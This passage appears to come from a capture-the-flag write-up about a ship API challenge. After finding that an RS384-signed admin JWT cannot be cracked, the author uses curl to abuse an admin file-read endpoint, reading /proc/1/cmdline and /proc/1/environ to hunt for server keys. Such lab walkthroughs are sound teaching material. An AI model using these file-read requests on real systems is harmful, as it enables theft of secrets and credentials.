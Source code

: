 ![jwt_tool showing decoded admin token](admin-token.png)

Unfortunately the `RS384` algorithm seems to be quite strong (and asymmetric) for breaking, so we'll need to find some
other way. However, we haven't used `/api/v1/api/file` method so let's take a look if we can find some keys on the
server. First, let's check what's running there.

_Note: The schema indicates that the response contains JSON with file content in a `file` field so we'll use `jq` to
extract it from the response._

```console
$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/proc/1/cmdline"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq .file
"/app/venv/bin/python\u0000/app/venv/bin/uvicorn\u0000--reload\u0000--host\u00000.0.0.0\u0000--workers\u000010\u0000--port\u000080\u0000shipapi.main:app\u0000"

$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/proc/1/environ"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq .file
```